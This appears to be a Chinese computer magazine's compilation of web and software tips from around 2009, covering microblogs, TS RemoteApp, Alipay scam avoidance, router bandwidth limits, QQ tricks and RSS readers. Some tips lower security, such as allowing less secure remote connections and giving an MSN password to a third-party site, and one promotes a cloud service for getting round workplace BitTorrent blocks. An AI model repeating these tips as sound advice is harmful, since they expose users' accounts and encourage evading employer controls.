小编话：因为对网络天然的不信任，非常重要的朋友、客户电话等，我是绝对不会上传到网上的。本例的测试，我只上传了一些无关紧要的通信录到139社区。安全起见，我建议大家也这么做。另外，不用通过软件，在139说客页面上，点击“添加联系人”或“邀请联系人”可以手工添加好友。

### 搏感情 各地好友“网络”齐聚会

我的生日派对，正好借此机会联络一下多年同学、朋友间的感情。可是有些朋友远在国外无法回来，怎么办呢？于是我把生日聚会时的一些感人情景拍摄下来，并将视频上传到Youtube（或Vimeo）上，这样国外的朋友们就可以在线观看，感受聚会时的温馨氛围了。不过一个一个通知好友很麻烦，国外朋友喜欢在雅虎咪咪上开微博客(http://meme.yahoo.com)，于是我也注册了一个，登录后切换到video（视频）选项卡，发布Youtube上的视频，雅虎咪咪上的所有好友果然都及时获取到消息并观看了。

### 旅途见闻随时与好友分享

在各路朋友们的帮忙下，拉投资的事情有了些眉目，一高兴决定放自己几天假，出去旅游。途中，用手机拍下了不少风景，真想马上与好友们共享。可是，手机里的照片，怎么才能发到博客里？其实非常的简单。之前要先做些功课：登录自己的新浪微博点击上方“手机发微博”，按提示将自己的手机号码与新浪微博绑定。现在，无论何时何地，编辑好短信内容发送到106688813600（移动/联通用户），或者将手机拍下的照片同样发送到此号码，即可随时更新微博（我用手机发布的图文微博，欢迎光临http://t.sina.com.cn/fly2spring）。其他朋友通过网页，甚至只能上网的手机，就能立即看到我发布的图片微博了。其实还能手机WAP访问http://t.sina.cn，在手机上直接写博客。

小提示：
★ 绑定手机前要仔细阅读新浪微博手机增值服务条款，关于免费条件及彩信开通信息都有说明。其实所谓免费免的是新浪服务费，短信发送资费依然会收取。
★ 用139说客，短信写博自然是它的优势了。在自己的139说客主页上方的文本框中，输入一段话，再点击“发布”，一条微博就写完了。通过手机写博客更是简单，编辑好微博的内容，发送短信到10658178021就可以了。这样，我们躺在床上就能写微博了。

### 新闻即时追：大家都在聊什么？

旅游归来，发现自己好几天没能关注开复的创新工场了。赶紧登录新浪微博，点击发布框下的“插入话题”链接，内容框中自动出现两个井号，将中间的内容替换成我想关注的话题（如“创新工场”），再在后面加上自己的问题，“发送”后，果然话题文字自动变成一个链接，点击之后就可以快速看到创新工场的信息，不但有开复自己的言论，还有其他许多人相关的话题，便于我更全面的了解。

### 乱花迷人眼，微博用谁家

除了上面的介绍，还有其他一些不错的微博，比如滔滔。滔滔是腾讯推出的微博网站，只要有QQ，打开滔滔 (http://www.taotao.com) 并用自己的QQ登录后切换到“我的叨客”，在内容框中随便输入，按Ctrl+回车键即可发布博文。滔滔微博还有一个有趣的功能，在发博文前，如勾选了“同步更新我的QQ个性签名”项，即使没有开QQ，该博文也会自动变成QQ签名。如果用手机，发“qm+内容”的短信（如“qm不用在线我也变”）到10661700373，也会自动更新QQ签名，肯定能吓朋友一跳（不过短信要花钱）。注意：如果手机还没有与叨客关联，它会短信提示你。

网络大补贴：除了上面介绍的外，这里再给大家介绍一些国内外的微博网站。
★ Twitter (http://twitter.com)：世界知名微博，国外名流多喜欢上这开博。
★ (http://www.iminta.com)：类Twitter的微博，并能聚合del.icio.us、flickr、google reader、youtube、blog等上面的信息。
★ V博客 (http://vblog.10659418.com)：139说客是移动的微博客，V博客则针对的是中国电信用户。
★ 做啥 (http://zuosa.com)：国内微博网站，支持网页、MSN/Gtalk/Skype、手机短信更新。
★ 相闻 (http://www.17xw.com)：支持手机、网页、MSN/QQ更新。

### 【微博推荐】

新涌现的微博客可以分为多个大阵营，一类以新浪微博为代表，走名人路线，一类以139说客为代表，强调真实性和娱乐性，还有一类以雅虎为代表，走娱乐路线。如果你喜欢追星，渴望及时了解各行各业的新闻信息，就选择新浪。如果你希望是一些熟人之间的真实沟通、交流，可以选择139。而如果是为了娱乐，不妨试试雅虎咪咪。其他的，则可以按自己常去的社区来选择，比如QQ用户就可以选择滔滔，这样QQ友之间的联络会更便捷。注意：本文涉及的所有短信号码，均取自各自的官方网站，号码如有变化，以各官方网站上的说明为准。

> “画”言巧语 聊聊天
同事小华是个笨嘴拙舌的人，别看他平时说话笨拙的样子，可和女朋友聊起天来，他那时不时蹦出来的特别的语言，却令女友心跳眼热。原来，他有“长生QQ字符画”（下载地址：http://www.onlinedown.net/soft/84780.htm）这款软件帮忙。这是一款绿色软件，下载解压后双击OICQGIRL.EXE即可运行。既然是和MM聊天，鲜花、爱情、情感等甜言蜜语就必不可少了。点击菜单栏“精选图形→爱情”（或直接点击工具栏上的“爱”按钮），即可打开多个爱情相关的字符画，用鼠标选中心仪的图像后复制，再在QQ、MSN等聊天软件，或者E-mail中粘贴使用即可。如果MM心境不佳，在“聊天用语”中，你可以用“经典笑话”、“赞美MM”中的语句令MM捧腹。当然，其中的“甜言蜜语”、“求爱密技”可能也是你所需要的。对于使用搜狗拼音输入法的朋友，则直接使用输入法自带的表情字符库即可。切换到搜狗拼音输入法后（默认快捷键为Ctrl+,），点击输入法工具条右侧的扳手图标，从弹出菜单中选择“表情&符号→搜狗表情”（快捷键为Ctrl+Shift+B），然后点击选择自己需要的表情文字即可。切换到“字符画”中，还可以选择当前网络上最流行的各种字符画来表情达意。不管是使用搜狗表情还是字符画，都可以在上面的搜索框中输入关键词搜索，可以快速找到自己想要的表情，十分便捷。同样，我们还能进行反查，如果MM发给你的表情你看不懂，别着急，将该表情复制粘贴到搜索框，很快就可以查出它代表的意思来。

小提示：搜狗拼音的表情字符有很多，比如表示“汗”的就有：
很汗：-_-! 狂汗：-_-|||
尴尬：◎_◎b
表示“晕”的就有：
一般晕：+__+ 狂晕：(+__+)~
晕死了：(@__@)~ 我晕：X__X
头晕目眩猪：
(～o～)～ (/@ @)/
((oo))

（江苏/曹春华 流言）

## 软件分身有术，一台安装多台使用

现在家里有两三台电脑已经很普遍了。为了共享上网大多使用路由器组成小型局域网。一般情况下每台电脑上都会安装一些装机必备软件，这样导致许多软件在电脑上被重复安装。何不将其中一台电脑作为服务器安装上Windows 2008，通过它集成的TS RemoteApp功能实现同一程序多电脑共享。

## 实战：Office 2007大家一起用

小王的许多重要数据都是在Office 2003上创建的，安全起见他没有升级到Office 2007。不过工作中偶尔收到客户docx之类用Office 2007生成的文档，此时Office 2003就无法打开了。为了偶尔接触的一些文件而在每台电脑上都安装体积庞大的Office 2007有点得不偿失。现在借助TS RemoteApp，小王只要在服务器上安装一份Office 2007即可。

## 准备工作不可少——安装终端服务

作为服务器的电脑，需要使用Windows 2008系统。默认情况下它并没有开启终端服务，可手动开启。

- 第一步：在Windows 2008中依次点击“开始→管理工具→服务器管理器”打开服务器管理工具，点击左侧窗格“角色→添加角色”，在角色列表中勾选“终端服务”，按向导提示一直单击“下一步”完成添加。最后重启系统使终端服务生效。注意：终端服务需要有许可证，否则只能使用120天。

## 开启共享之门——部署 TS RemoteApp

如上设置后，还需要配置TS RemoteApp以增加可调用Office 2007的Word组件。TS RemoteApp程序可以通过多种方式共享，这里仅介绍生成rdp文件，该文件可以被“远程桌面”组件直接打开。

- 第一步：由于客户端只要将生成的rdp文件下载到本地即可，因此为了方便客户端电脑的访问，可在Windows 2008中设置一个共享目录，假设为d:\software，右击该目录选择“共享”，设置为当前账户共享该目录。
- 第二步：单击“开始→管理工具→终端服务→TS RemoteApp→TS RemoteApp管理器”。单击右侧窗格“操作→添加RemoteApp程序”，单击向导窗口中的“浏览”选择已经安装的“C:\Program Files\Microsoft Office\OFFICE12\winword.exe”，再按向导提示完成添加后返回TS RemoteApp管理器窗口，在RemoteApp程序列表就可以看到添加的Word 2007了。
- 第三步：在列表中右击Winword.exe选择“创建rdp文件”，将文件保存到上述的共享目录中 (d:\software，文件名为winword.rdp)。
- 第二步：右击桌面上的“计算机”选择“属性”，在打开的窗口中单击“高级系统设置”，再在属性窗口中切换到“远程”，单选“允许运行任意版本的计算机连接(较不安全)”。这样不管客户端是Windows XP或是其他版本，都可以方便地连接到Windows 2008的电脑上。

网络大补贴：
TS RemoteApp循序渐进：http://technet.microsoft.com/zh-cn/library/cc730673(WS.10).aspx。

## 远程共享——远程调用 Office 2007

完成上述操作后，我们就可以在局域网中（无论是单位或家里）的任意一台电脑上运行Office 2007的Word组件了。这里以Windows XP SP3的电脑为例。

- 第一步：启动Windows XP，打开“我的电脑”，单击侧边栏的“网上邻居→查看工作组计算机”，打开Windows 2008服务器，将其中共享目录中的winword.rdp复制到桌面。
- 第二步：双击运行桌面上的winword.rdp，此时会自动启动远程桌面并开始连接，首次连接需要输入Windows 2008的账户名和密码等验证信息（可以勾选“记住密码”方便下次登录），同时按照屏幕提示导入验证的数字证书。成功连接后就可以在XP桌面看到启动的Word 2007进行工作了（虽然本机并没有安装此程序）。打开任务管理器可以看到该进程后面有个(远程)标记。

同样方法，我们可以添加其他的共享应用程序。比如，一些网络硬盘只允许IE7访问，如果当前电脑没有升级到IE7，我们只要把Windows 2008的IE7添加到远程共享中即可。这不但大大节省了资源，而且免去程序配置等复杂操作，是不是很方便。

(文/俞木发)

## 买卖陷阱，淘宝别被“淘”

支付宝，这个看上去非常安全的支付系统，实际上有不少朋友（买家和卖家）遭遇过支付宝诈骗。从被骗类型看，支付宝诈骗主要有两种，一是用户不了解支付宝的支付流程，由于自己“违规操作”导致受骗。二是骗子利用支付宝本身漏洞进行诈骗，用户由于没有及时投诉，或者没有留存足够交易证据，导致钱款被骗子诈取。

## 案发现场 1：规则不熟要防货款两空

湖南高先生在淘宝某网店使用支付宝购买一部标价为2000元的手机，但是使用支付宝付款以后只收到2块其他品牌手机电池。经过和店主联系后，店主告知发错货物，并答应第二天发送手机给高先生。店主要求高先生选择“退款→收到货，但要求退款”，退款200元（店主宣称的手机电池价值），最终被骗1800元。

骗术分析：上述案例是典型的“违规操作”导致受骗，受骗的原因是由于不了解淘宝退款规则所致。根据淘宝退款规则，退款有两个选择（见图）。



## 选择1：收到货，但要求退款

没有收到货物请不要选择此选项，这个表示买方已经收到货物，但是和拍下宝贝不符，此时可以选择部分退款（注意的是，此时剩余的货款就全部支付给卖家了），所以这个退款申请一定要慎重！在上述案例中，高先生正是由于“操作失误”导致受骗，其实根据一般购物规则，此时高先生应该采取如下措施：

- 1. 如果收到的货物和拍下宝贝不符（如拍下手机收到电池），此时就拒收货物（验货之前不要签字），并应当直接退货或者要求在签收单（收货人联和承运人联）上加注详细情况并让承运人签字确认。
- 2. 立刻用旺旺联系卖家说明退货，同时申请退款并保存好聊天记录。选择“收到货，但要求退款”，接着在打开的页面，愿意向卖家支付输入“0”元，选择“我要退货”，这样货款就不会支付到卖家账户，同时及时上传相关凭证到淘宝网申诉。

> ★注意：根据支付宝规定，买家如需退货，必须在签收货物后的三天内提出退货申请。如逾期申请退货且卖家拒绝接受退货，则支付宝公司有权将争议货款支付给卖家。同时要在7个工作日内上传凭证，证明收到货物有质量问题，这样才可以从支付宝取回货款。

## 选择2：没有收到货，要求全额退款

一些骗子经常在收款后拖延不发货，然后又忽悠有优惠，诱导买家部分退款诈骗钱财。如果买家没有收到货，一定要选择全额退款。支付宝规定，买家付款确认后的24小时后即可申请退款。若卖家没有发货，在买家申请退款后，卖家5天内未响应，系统自动确认退款。

> ★注意：淘宝规定，对于快递发送商品，如果10天内用户不确认收货，也不申请退款，则会付款给卖家。所以为避免交易超时到期，我们可以先让卖家延长交易时间，或者申请未收到货的退款，收到货物后再确认收货打款卖家！

- 网络大补贴：
  ★ 支付宝争议处理规则http://help.alipay.com/support/help_detail.htm?help_id=3263
  ★ 支付宝超时规则http://help.alipay.com/support/help_detail.htm?help_id=3262

## 案发现场 2：卖家违规发货有漏洞

河北小杨在淘宝开店卖鞋子，近日一个买家说要买303双鞋子，货款总计1.6万。但是对方说自己支付宝无法使用，借用朋友A的支付宝付账，并要求小杨看到支付宝到账后发货给他。在查看到自己支付宝款项到账后，小杨将鞋子发送给对方。但是对方收货后，真正付款的A却以没有收到货物为由申请退款，淘宝依据规定将货款退还用户，导致小杨损失1.6万元。

骗术分析：其实这是骗子利用支付宝的一个漏洞进行诈骗。淘宝支付宝担保交易存在双方信息不对称的漏洞。即在担保交易的时候，双方只能看到彼此的支付宝账号，却看不到和此账号绑定在一起的账户名。这样就导致交易行为成了卖家一对二（或一对多）状况，任何一个买家都可以通过某一个支付宝账户进行交易，在卖家将货物发给骗子后（可以是假地址，上门取货），真正支付宝账户（骗子同伙）就可以申请退款，从而骗取货物。因此，对于卖家来说如果交易对方并非是支付宝账户本人，一定要使用旺旺等记录其为支付货款的朋友代购的证据。这样发现自己被骗时，我们就可以向淘宝申请冻结资金。

## 写在最后

不管是买家还是卖家，即使通过支付宝交易仍然会被骗。应该说其中最重要的原因就是不熟悉淘宝交易规则，不按指定规则交易。如何才能更安全交易？最后总结几条安全交易的意见供大家参考：

- 1. 交易之前一定要熟悉支付宝争议处理和超时规则，不管是买家还是卖家，一定要遵从支付宝交易规则，严格按照流程进行交易。
- 2. 在交易期间一定要使用旺旺记录交易过程，并以此作为以后申诉书面证据。对于卖家，原则上要求买家收货人姓名与支付宝账号一致。对于买家收货时一定要仔细检查货物才能签收。
- 3. 一旦发生交易纠纷，一定要及时举证，同时提交各种书面证据申诉（如旺旺聊天记录、收发货凭证、商品照片等）。
- 网络大补贴：
  ★ 支付宝交易防骗知识：http://tinyurl.com/ycbq97u
  ★ 支付宝新手防骗小知识：http://club.alipay.com/~taobao/show_thread-119---7281925-.htm
  ★ 支付宝防骗攻略：http://www.mwzlt.cn/redirect.php?fid=34&tid=205&goto=nextoldset
  ★ 0.01元的骗局——用支付宝防骗知识：http://blog.china.alibaba.com/blog/sglingtong/article/b0-i3449813.html
  ★ 支付宝交易前后过程中的防骗秘籍：http://www.dianping.com/group/itaobao/topic/942013

(文/平淡)

## 喂，别超速——网络限速我有招

网络就像我们现实生活中的公路，在这条路上经常有人超速行驶（网络程序占用大量的带宽），以致后续的车辆无法正常行驶（导致正常的网页浏览都很困难）。因此在网络上我们也要对程序进行“限速”（限制带宽）。

## 局域网用户——使用路由器重新分配带宽

现在很多朋友都通过路由器和邻居共享上网，不过总有些邻居不自觉，开机就玩起BT下载，导致我们的电脑连打开网页浏览都很困难，每次都要去敲邻居家门叫他限速下载？其实只要用好路由器的带宽分配功能就可以了。这里以TL-WR541G/542G 54M无线宽带路由器设置为例。

第一步：由于路由器只能对指定IP地址（段）进行带宽限制，默认电脑IP是由DHCP自动分配。因此我们要手动指定局域网中的电脑IP地址，以免限制到自己的电脑带宽。打开IE输入“http://192.168.1.1”进入路由器设置界面，依次展开“DHCP服务器/DHCP服务器”，地址池开始和结束地址依次设置为“192.168.99~192.168.100”（假设只有2户共享）。

第二步：单击“开始→连接到→显示所有连接”，打开“网络连接”窗口，右击“本地连接”选择“属性”。接着在弹出的连接属性窗口中，单击“常规”标签，在“此连接使用下面项目”下双击“Internet协议（TCP/IP）”。在弹出的属性窗口中选择“使用下面的IP地址”，然后在IP地址栏输入“192.168.1.99”，子网掩码后输入“255.255.255.0”，根据自己网络ISP设置好DNS服务器，然后依次单击“确定”退出。邻居家的电脑进行同样设置，IP地址设置为192.168.1.100。

第三步：返回路由器左侧窗格设置界面，切换到“IP带宽”，勾选右侧窗格的“开启IP带宽限制（只有勾选此项并点击“保存”按钮后，IP带宽限制才会生效）”，然后在下方的IP地址段设置“192.168.1.100~192.168.1.100”，模式选择“限制最大带宽”，带宽大小设置为1000Kbps，备注随便填写，勾选“启用”，然后单击“保存”生效。
这样对路由器进行设置后，邻居的电脑就只能分配到1000Kbps的带宽，对于2M的ADSL用户，我们至少还可以享受到1M的带宽，网页的浏览一般是没有问题了。

小提示：
如果无法对邻居居家的电脑进行IP手动设置，要想限制对方的电脑带宽时，只要进入路由器界面展开“DHCP服务器/客户端列表”。找到对方那台电脑的IP，其他同上进行带宽限制即可。

网络大补贴：
对于企业局域网用户，可以使用P2P终结者对网内电脑流量限制：http://tinyurl.com/msfleb

## 单机用户——管好程序带宽占用

通过上述方法我们已经设置好了邻居家的带宽，不过对于自己电脑上运行的网络程序，我们也要进行限速。

## 利用软件自带设置限速

很多网络软件，如迅雷、快车等，已经自带限速功能，我们只要加以设置即可。比如启动迅雷后，单击“工具→配置”，打开配置面板，切换到“网络设置”，在下载模式下单选“自定义模式”，手动设置最大下载和上传速度即可。

## 使用专用软件限速

如果软件本身没有限速的功能，我们可以借助QQ医生（下载地址：http://doctor.qq.com/）进行限速。启动QQ医生后单击“高级”，切换到“网络流量”，单击“开始监控”。首次使用要重启系统，重启后再次开启就可以自动捕捉当前系统所有网络程序流量使用情况了。对于要限制上传流量的程序，在列表中右击选择“限制上传”即可自定义软件上传速率了。QQ医生会记住上次设置的软件上传速率，这样下次需要进行同样限制时，只要运行QQ医生即可。

小提示：
如果要限制任意软件的上传、下载流量，可以到http://www.onlinedown.net/soft/58938.htm下载“带宽调节器”，运行后在下方的列表处右击选择“增加”，然后导入限流程序的路径，以后就可以设定软件上传/下载速率了。带宽调节器同样会记住前面设置。

（文/平淡）

## 10秒判断是否还是Ta好友

时间长了，不知道QQ里的好友有没有把自己删除？网上一些软件可以帮我们探出结果，但第三方软件谁敢放心用呢？其实下面教大家的方法，既快速又安全，只需10秒就能知道你是否还是Ta的QQ好友。

首先打开http://my.qq.com，用自己的QQ登录。
接着再在浏览器地址栏中输入“http://show.qq.com/cgi-bin/qqshow_camera_noname?uin=好友QQ号&friend=1”（不含外侧引号）；注意，一定要将其中的“好友QQ号”换成实际的QQ号码。输入完毕按回车键打开，即可得到一个网页，显示的是一段代码。我们只要看xfriend后面的数值，若是“1”则表示该好友没有删你，若是“0”就说明你已经不是Ta的好友啦。
可以将链接中的号码换成其他好友号码继续测试，又快又安全吧。

（南京/韩鹏）

## MSN的自动回复小秘书

我们知道QQ可以设置自动回复，这样有事暂时离开时，可以通过自动回复让好友随时获知情况。这种自动回复功能无疑是很实用、很贴心的。可某些聊天软件（如：MSN，Google talk，雅虎通等）并没有自动回复功能，这时该怎么办呢？下面我们以MSN为例，介绍通过answer.im网站给聊天软件设置自动回复。

第一步：登录http://answer.im，在Account中选择聊天工具的类型，如：MSN，ICQ，Yahoo，Google Talk等，这里选择“MSN”，在Username中输入用户名，Password中输入密码，单击Login按钮登录MSN中。

第二步：选择Authorise people，在Status中选择MSN显示状态（Online表示在线，Busy表示忙碌，Away表示离开，Offline表示不在线），在Autoresponse message中输入自动回复的内容，最后单击Save changes按钮保存设置。
这样好友给你的MSN发信息就会自动回复，单击Messages可以看到好友的留言，单击Contacts按钮可以与MSN中的好友直接聊天，单击EXIT退出MSN。其他IM软件的自动回复操作，与上面的方法相似。

（文/殷邦秀）

## 迅雷为傲游下载接力

几乎所有的浏览器都自带下载功能，这样可以边浏览网页边下载，非常方便。不过浏览器自带下载工具的最大弱点就是——慢。傲游新版中集成的下载工具则彻底打破了这一瓶颈，速度极快。

默认情况下“傲游下载”工具并未启用，可在傲游中点击“工具→傲游设置中心→文件下载”，在右侧选中启用“傲游下载”。再点击该选项右边的“设置”，还可以进一步设置，是不是感觉界面和迅雷的如出一辙？对了，它正是启用了迅雷下载的核心。
当下载任务没有完成又必须关机时，不用担心，傲游会断点续传，下次启动，点击“工具→傲游下载”，即可重新打开它。在下载页面中，单击“文件夹”可快速进入下载文件的位置。

如果不小心删除了未完成的下载任务，而傲游又没有恢复删除任务的功能，这时怎么办呢？别着急，进入下载文件夹中，会看到未被删除的临时文件，其后缀名分别为“.td.cfg”和“.td”。这不正是迅雷的下载临时文件吗？所以只要启动迅雷，执行“文件→导入未完成下载”命令，然后导入傲游下载未完成的“文件名.td.cfg”文件就可以继续下载啦。

小提示：
“文件名.td.cfg”是迅雷下载日志文件，当用记事本打开此文件时我们会发现文件的下载地址等信息。有了这一文件就可以通过迅雷的“导入未完成下载”功能识别并继续下载了。

（浙江/木易）

## 另辟蹊径申请QQ“靓号”

申请QQ号的方法有很多，可以直接买会员靓号，也可以用手机“免费”申请（其实至少要花一块钱）。当然最原始的办法就是上腾讯提供的免费申请页面按部就班地申请，不过成功的概率比较低。其实，通过QQ邮箱，可以方便快速获取以9为开头的9位“靓号”。

首先在IE浏览器中打开mail.qq.com页面，点击“立即注册”，在新页面中点击“方法二：如果您未使用QQ，可以直接注册邮箱账号（30秒即可）”项，填写相应的信息，最后点击“确定”就可以了（输入E-mail账号名后最好点击“检测账号是否可用”）。

接下来点击“进入我的邮箱”，写邮件时会发现有两个邮箱账号，一个是刚才申请的，另一个是数字的，这个数字就是我们申请到的QQ号码了，现在，用这个申请的邮箱或者获得的号码登录QQ就可以使用啦。

小提示：
★ CFan上曾介绍过通过http://signup.qq.com/申请QQ号的方法，相比之下，它只能申请到10位的号，而且有IP限制，界面又是英文版的，看上去不太亲近。所以还是通过QQ邮箱申请的方法比较方便。

（文/小玄）

## G.ho.st，能BT的超级网盘

现在大多数影片（及大型软件）都是通过BT下载的，可是许多单位封闭了BT端口，上班时只能眼睁睁看着新鲜大片的BT种子就是不能下载，心里急啊。不过现在你不用着急了，最近淘到一个能BT的网盘，能够一解你的烦恼。
首先登录http://g.ho.st，点击“注册”，根据提示注册账户，成功后以自己的账户重新登录G.ho.st，进入网页虚拟系统后，双击桌面“标记物”（测试版）图标，打开一个类似资源管理器的窗口，再双击打开“我的G.ho.st盘”，点选某一文件夹（我选择的是“My Videos”），然后点击工具栏上的“侧载”按钮，将会弹出窗口。可以看到它不但支持HTTP下载，还支持P2P种子下载。赶紧将搜索到的一个电影种子粘贴到“种子URL”框中，接着点击“操作”按钮。

初始化阶段有点漫长，但初始化结束后发现下载速度竟然达到1.8MB/s。网站在代我们BT下载时，我们完全可以做别的事情不去理它。不过请注意，BT下载的文件是存在G.ho.st服务器上的，下载完毕还需要点选该文件，选择“下载”，才是真正下载到本地。
把G.ho.st当成超级网盘，而且它还有自己的操作系统，以及具有办公套件，影音播放，IM聊天等多种功能，有兴趣的朋友们赶紧去试试吧。

（文/幻影的泪水）

# 端在口袋里的邮箱

E-mail是我们不可或缺的联系工具，对于办公一族来说更是如此。下面要介绍的，则是除了基本收发邮件之外的其他技巧，可以更好地提高我们的工作质量。

# 走在路上也能收的邮件

我们不会总是坐在办公室里，比如有时要出外办事，恰巧又有重要的邮件要等，怎么办呢？139邮箱可以帮助你。

首先要有一个有效的中国移动手机号码，然后就可以免费开通@139.com邮箱了。打开 http://mail.139.com，点击右侧“免费注册邮箱”，按提示输入手机号码并点击“获取短信验证码”，再填写收到的验证码，添加邮箱管理密码，最后点击“同意以下协议并注册139邮箱”按钮即可。接着登录自己的139邮箱，进入“设置”页面，点击“手机通知→邮件到达通知”，选择“开启”，再设置一下接收短信的时间段和发送方式（彩信等项是收费的，选择时注意说明），默认选择“普通短信”，最后点击“确定”就可以了。

# 任意邮件短信及时报

一般我们会有多个邮箱，能不能让其他邮箱的邮件也能在收到时给我们发短信通知呢？设置让139邮箱来代收其他邮箱邮件，就可以达到这一目的。

在139邮箱页面点击左侧“代收邮件→新建一个代收邮件账户”，再在显示的右侧页面输入需要代收的邮箱和密码，接收文件夹自动显示为邮箱地址，点击“检测账号”，通过检测后点击“确定”，这样其他邮箱的邮件被139邮箱代收后也能及时通知我们了。

> ★ 小提示：
139邮箱还有其他一些功能，比如日程提醒。点击左侧“定时邮件”，再点击右侧“新建定时邮件”，填写日程安排内容，再指定具体的发送时间就可以了。收件人可以是自己，也可以是其他相关的人。

# 内事不决问MM，外事不决问群友

如果有些事情你不好确定，可以使用QQ邮箱来制作投票邮件，让群里的好友帮你决定。

登录自己的QQ邮箱后，点击“写信”，再在页面中选择“QQ群邮件”标签，填写邮件主题后在下面选择发送投票的QQ群，并点击“投票”按钮。在显示的选项界面中，设置投票主题及选项等内容，在邮件的正文里输入投票的内容，完成后点击“发送”。发送后，群里的好友都会自动收到投票邮件，他们只要按邮件里面的内容选择投票就可以了。

# 火眼金睛明辨邮件真假

有时你可能会收到一些巨额消费、万元大奖之类的邮件，或者疑惧、或者惊喜，但是到底是不是真的？有了网易的“诚信邮”，就可以少受钓鱼邮件（假冒正规网站）的欺骗了。打开 http://activity.mail.163.com/honestyunion/index.do，点击“我愿意体验”，用自己的网易邮箱登录后，会收到网易发的邮件。可以看到两点不同，一是邮件标题前显示网易的图标（淘宝、支付宝、当当、建行等诚信联盟网站也会显示各自网站的图标），另外在打开邮件后标题上会显示“信”图标。如果没有这些标识却显示是网易的邮件，注意，那肯定是钓鱼邮件无疑了。

> ★ 小提示：
收放心邮件应是大势所趋，Gmail实验室也推出了类似的认证功能。登录自己的Gmail账户后，点击“设置→实验室”，找到“为经过验证的发件人提供验证图标”项，选择“启用”，然后单击“保存更改”即可。目前，Gmail仅支持eBay和Paypal两个网站。

# 放大表情符，MSN笑得更灿烂

有不少朋友在使用MSN（Windows Live Messenger）作为即时聊天、沟通的工具。新版MSN（WLM Build 14.0.8064.206或更高版本）中，可以实现一个很有意思的功能：为自己的MSN签名添加大表情。

首先在Word中书写如下代码：`:)`

需要强调的是，“:)”以及后面的“.”之间的表情都会显示为大表情，因此这两个特殊的字符是不允许更改的。其中的“:)”，则是MSN中的“眨眼”表情符，当然你也可以更换为其他的表情符。（此特殊字符只能在Word中能正常显示，大家可从 http://work.newhua.com/cfan/200919/msnchar.rar 获取我制作的Word文档，全选复制其中的符号即可使用）

点击MSN面板上自己的昵称，选择“选项”，然后修改自己的“显示名称”，将复制的特殊符号粘贴到第二行“让其他人看到的个人消息”框中，确定后即可获得效果。不过，这里的表情符仍然只是正常大小，别着急，其他朋友所看到的，则是“巨型”表情，很有意思吧。

> ★ 小提示：
如果希望换用其他的表情符，更换一下表情符代码即可。查阅具体的表情符代码，可在打开的聊天窗口中，单击“选择图释”按钮，再将鼠标停靠在想要获取代码的表情上，即可看到显示。常见的表情符代码有：
- 微笑 :)
- 大笑 :D
- 惊讶 :-o
- 哭泣 :(
- 玫瑰 (F)

# RSS阅读谁是最好的“网络信使”

我们为了寻找信息常常在多个网站上穿梭着，大把的时间就这么浪费了。实际上我们可以让资料自己送上门来，这就是RSS。现在无需安装软件，通过在线工具就可以订阅RSS了。

# 实例1：最新资讯自动来

想让自己感兴趣的资讯自动送上门来，用Google阅读器就能轻松搞定。
第一步：打开 http://reader.google.com 并用自己的谷歌账户登录。默认情况下Google阅读器提供了一些RSS群组供我们选择。当然也可以点击“添加订阅”添加自己需要的内容。我是个篮球迷，输入关键词NBA后点击“添加”，即可快速列出许多与NBA相关的RSS频道，挑选自己感兴趣的频道，单击其下的“订阅”按钮就可以了。如果已经知道RSS频道的地址，直接复制粘贴到输入框中，单击“订阅”即可。订阅后单击“添加到文件夹”选择“新文件夹”，这样就创建出自己的RSS频道组了。
第二步：单击“订阅”后的“▼”按钮选择“管理订阅”，在这里可以删除、移动或退订已添加的RSS频道，切换到“文件夹和标签”选项还可以设置RSS群组的属性（私人、公共等）。设置好频道后，以后只要登录自己的Google阅读器，就可以看到订阅的最新资讯了。

互联网上有众多的在线RSS阅读器可以供我们选择，那么什么样的阅读器更可以提高我们的学习效率，什么样的阅读器更适合我们自己？在这里笔者对目前应用比较多的7款在线RSS阅读器进行简单的评测，希望能为大家的选择提供帮助。

# 实例2：普通网页变身 RSS 频道

如果关注的页面并没有提供RSS订阅功能，怎么办？很简单，登录Page2RSS网站（http://page2RSS.com），将网址复制粘贴到“Page URL”（页面地址）之后，再单击“to RSS”切换到新页面；右击新页面上的RSS选择“属性”，在出现的对话框中，地址后面的网址就是该网页转换后的RSS地址。接着再在RSS阅读工具中订阅即可。

# 实例3：E文 RSS 频道轻松读

对英语水平一般的朋友来说，如果想阅读国外的RSS频道，无疑会有些麻烦。此时我们可以借助molooi来帮忙，他能将英文RSS信息翻译成中文，并且会重新生成一个RSS频道地址。
登录 http://zh-cn.mloovi.com，然后将英文RSS频道的地址复制粘贴到输入框中，在后面选择“中文（简体）”，再单击“翻译”按钮开始翻译，稍后会打开新的页面。单击新页面上的“Subscribe”选择“订阅”，即可将翻译后的RSS频道直接订阅到国外的RSS阅读器中。单击“订阅”按钮可打开新的页面，该页面的网址就是翻译后的RSS地址，将这个地址添加到自己的RSS阅读器，就可以订阅翻译后的中文频道了。

# 我该如何选择？

**外文资料：**
Google Reader内置的搜索引擎可以很方便地获取到国内外的RSS频道，如果你需要订阅国外的RSS频道，它是最佳的选择。

**人文科学：**
有道是网易推出的服务，网易作为国内较早起步的网站，有不少文化积累，所以有道中也收集了不少精品人文RSS频道。

**生活财经：**
珀图网是大名鼎鼎的周博通RSS阅读软件的网络延展，提供的RSS频道非常多，其中房产、汽车、财经证券频道特别丰富，非常适合于白领人士使用。

**综合百科：**
抓虾和鲜果在RSS聚合领域，是国内起步较早的网站，收集的内容比较全面，各行各业都可以找到。适合资深网虫搜集资料使用。

| 网站 | 网址 | 浏览速度 | 集成功能 | 用户互动 | 浏览器兼容性 | 个人主页 | 自定义目录 | 快捷设置 | 频道控制 | 文章标签 | 热文排行 | 频道导入导出 |
|---|---|---|---|---|---|---|---|---|---|---|---|---|
| Google Reader | http://www.google.com/reader | ★★★★☆ | ★★★★★ | ★★★★☆ | ★★★★★ | × | √ | √ | √ | √ | × | √ |
| 有道阅读 | http://reader.youdao.com | ★★★★☆ | ★★★★☆ | ★★★☆☆ | ★★★★☆ | × | × | × | × | √ | √ | √ |
| QQ阅读空间 | http://mail.qq.com | ★★★★☆ | ★★★☆☆ | ★★★☆☆ | ★★★★☆ | × | × | × | × | × | √ | × |
| 飞豆 | http://www.feedou.com | ★★★☆☆ | ★★★☆☆ | ★★★☆☆ | ★★★☆☆ | × | √ | × | × | √ | √ | √ |
| 抓虾 | http://zhuaxia.com | ★★★★☆ | ★★★★☆ | ★★★★☆ | ★★★☆☆ | √ | √ | × | × | √ | √ | √ |
